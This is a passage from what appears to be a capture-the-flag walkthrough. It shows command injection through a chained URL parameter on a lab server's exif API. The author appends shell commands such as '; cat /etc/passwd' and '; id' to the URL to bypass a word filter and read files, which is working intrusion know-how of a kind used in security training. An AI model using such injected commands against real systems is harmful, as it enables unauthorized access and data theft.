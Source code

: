 So its executing `curl` , we can escape from the cmd by adding a `;` ,

`http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif?url=; cat /etc/passwd` .

<figure><img src=".gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>

Still banned words. Lets try another cmd.

`http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif?url=; id`&#x20;

And it worked :)

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

We can use `ls -al ~` to list all files in the current directory.

<figure><img src=".gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>

We can read that file with `cat ~/dev-note.txt` .
